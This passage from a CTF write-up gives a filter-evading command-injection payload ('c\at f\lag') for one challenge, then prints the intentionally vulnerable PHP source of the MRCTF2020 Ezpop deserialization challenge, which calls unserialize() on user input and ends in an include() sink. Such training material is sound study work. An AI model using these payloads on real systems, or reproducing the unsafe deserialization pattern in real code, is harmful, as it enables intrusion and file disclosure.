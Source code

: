 最终的payload

```
cmd=dir%20/  查看根目录
cmd=c\at%20f\lag
```

## [MRCTF2020]Ezpop

```php
 <?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
} 
```
